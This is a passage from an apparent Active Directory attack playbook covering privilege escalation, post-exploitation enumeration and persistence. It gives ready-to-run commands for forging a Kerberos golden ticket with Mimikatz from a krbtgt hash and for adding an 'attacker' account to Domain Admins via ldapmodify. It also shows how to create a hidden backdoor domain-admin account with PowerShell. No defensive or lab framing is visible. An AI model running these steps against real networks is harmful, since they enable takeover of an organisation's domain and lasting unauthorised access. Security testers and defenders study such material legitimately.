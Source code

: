 2. **Kerberos ticket forging / Overpass-the-Hash**

   * If you have NTLM hashes of a high-privileged user (e.g., `krbtgt`), forge Golden Tickets with Mimikatz or Rubeus.

     ```powershell
     # On a Windows box with Mimikatz:
     kerberos::golden /user:Administrator /domain:CORP.LOCAL /sid:S-1-5-21-XXXXX /krbtgt:HASH /id:500 /ptt
     ```

3. **LDAP modifications to escalate privileges**

   * If you have permissions to modify group memberships, add yourself to `Domain Admins`.

     ```bash
     # Using ldapmodify (example LDIF file add-member.ldif):
     ldapmodify -x -D "CN=svc_ldap,CN=Users,DC=corp,DC=local" -w Passw0rd! -f add-member.ldif
     ```

     ```ldif
     dn: CN=Domain Admins,CN=Users,DC=corp,DC=local
     changetype: modify
     add: member
     member: CN=attacker,OU=Users,DC=corp,DC=local
     ```

4. **Verify Domain Admin membership**

   * Once added, verify with `whoami /groups` or via `Get-ADGroupMember` on a Windows session:

     ```powershell
     whoami /groups | findstr "Domain Admins"
     ```

---

## 9. Post-Exploitation Enumeration & Persistence

1. **Enumerate all Domain Controllers and critical servers**

   * Get list of all DCs (via `nltest` or AD enumeration).

     ```powershell
     nltest /dclist:corp.local
     ```
   * Map out site topology (if needed).

2. **Establish persistence**

   * Create a new domain user with high privileges or create a Golden Ticket backdoor.

     ```powershell
     # Create new user via PowerShell (requires Domain Admin)
     New-ADUser -Name "svc_persistence" -SamAccountName "svc_persistence" -AccountPassword (ConvertTo-SecureString "P@ssw0rd1!" -AsPlainText -Force) -Enabled $true
     Add-ADGroupMember -Identity "Domain Admins" -Members "svc_persistence"
     ```
